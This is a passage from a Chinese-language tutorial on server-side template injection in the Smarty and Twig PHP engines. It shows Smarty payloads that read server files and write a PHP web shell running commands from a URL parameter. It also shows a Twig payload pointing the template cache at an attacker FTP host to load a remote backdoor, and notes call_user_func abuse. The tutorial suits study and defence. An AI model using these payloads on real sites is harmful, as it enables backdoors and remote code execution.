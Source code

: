 ![](https://0314valen.github.io/images/img/ssti/ssti_2.jpg)

这个函数能任意读取有读写权限的文件：

```php
{self::getStreamVariable("file:///proc/self/loginuid")}
1000
{self::getStreamVariable($SCRIPT_NAME)}
<?php
define("SMARTY_DIR",'/usr/share/php/Smarty/');
require_once(SMARTY_DIR.'Smarty.class.php');
```

不仅如此，我们能任意调用静态方法，这当中包括一个可以创建和重写文件的方法public function writeFile($_filepath, $_contents, Smarty $smarty)。通过该方法，我们能轻松在web目录下创建后门。值得注意的是，第三个参数必须为 Smarty 对象，所以我们要想办法得到 Smarty 对象的引用。

幸运的是，self::clearConfig帮助我们获取对象：

```java
public function clearConfig($varname = null)
{
return Smarty_Internal_Extension_Config::clearConfig($this, $varname);
}
```

最后，我们就可以创建后门了！

```php
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
```

##### Twig

Twig 和 Smarty 类似，不过我们不能用它调用静态方法。幸运的是，它提供了 _self，我们并不需要暴力枚举变量名。虽然 _self 没什么有用的方法，它提供了指向 Twig_Environment 的env 属性。Twig_Environment 其中的 setCache 方法则能改变 Twig 加载 PHP 文件的路径。这样一来，我们就可以通过改变路径实现 RFI了：

```twig
{% assign openTag = '{{' %}
{{ openTag }}_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
```

但是，PHP 默认禁止远程文件包含（关闭 allow_url_include），因此上述 payload 不能生效。进一步探索，我们在 getFilter 里发现了危险函数 call_user_func。通过传递传递参数到该函数中，我们可以调用任意 PHP 函数：

```php
public function getFilter($name)
  {
    ...
    foreach ($this->filterCallbacks as $callback) {
    if (false !== $filter = call_user_func($callback, $name)) {
      return $filter;
    }
  }
  return false;
}
 
public function registerUndefinedFilterCallback($callable)
{
  $this->filterCallbacks[] = $callable;
}
```
